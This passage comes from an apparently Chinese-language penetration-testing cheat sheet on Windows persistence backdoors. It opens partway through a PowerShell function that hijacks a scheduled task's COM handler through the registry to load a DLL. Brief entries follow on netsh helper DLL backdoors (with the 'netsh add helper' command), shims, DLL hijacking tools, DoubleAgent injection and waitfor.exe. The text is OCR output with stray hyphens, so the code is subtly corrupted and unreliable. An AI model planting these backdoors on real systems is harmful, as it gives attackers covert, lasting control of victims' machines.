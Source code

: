 if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){-
New-Item $ScheduledTaskCommandPath -Force |-
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null-
}else{-
Write-Verbose "Key already exists, consider using -Force"-
exit-
}-
-
if (Test-Path $ScheduledTaskCommandPath) {-
Write-Verbose "Created registry entries to hijack the UserTask"-
}else{-
Write-Warning "Failed to create registry key, exiting"-
exit-
} -
}-
Invoke-ScheduledTaskComHandlerUserTask -Command "C:\\test\\testmsg.dll" -Verbose-

##### 15、[Netsh](https://3gstudent.github.io/Netsh-persistence)

1-

netsh add helper c:\\test\\netshtest.dll-

后门触发：每次调用netsh

> dll编写:[https://github.com/outflanknl/NetshHelperBeacon](https://github.com/outflanknl/NetshHelperBeacon)

##### 16、[Shim](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Compatibility-Shims)

常用方式： InjectDll RedirectShortcut RedirectEXE

##### 17、[DLL劫持](https://3gstudent.github.io/DLL%E5%8A%AB%E6%8C%81%E6%BC%8F%E6%B4%9E%E8%87%AA%E5%8A%A8%E5%8C%96%E8%AF%86%E5%88%AB%E5%B7%A5%E5%85%B7Rattler%E6%B5%8B%E8%AF%95)

通过Rattler自动枚举进程，检测是否存在可用dll劫持利用的进程 使用：Procmon半自动测试更精准，常规生成的dll会导致程序执行报错或中断，使用AheadLib配合生成dll劫持利用源码不会影响程序执行

工具：[https://github.com/sensepost/rattler](https://github.com/sensepost/rattler)

工具：[https://github.com/Yonsm/AheadLib](https://github.com/Yonsm/AheadLib)

dll劫持不多说

##### 18、[DoubleAgent](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84Application-Verifier(DoubleAgent%E5%88%A9%E7%94%A8%E4%BB%8B%E7%BB%8D))

编写自定义Verifier provider DLL 通过Application Verifier进行安装 注入到目标进程执行payload 每当目标进程启动，均会执行payload，相当于一个自启动的方式 POC : [https://github.com/Cybellum/DoubleAgent](https://github.com/Cybellum/DoubleAgent)

##### 19、[waitfor.exe](https://3gstudent.github.io/Use-Waitfor.exe-to-maintain-persistence)
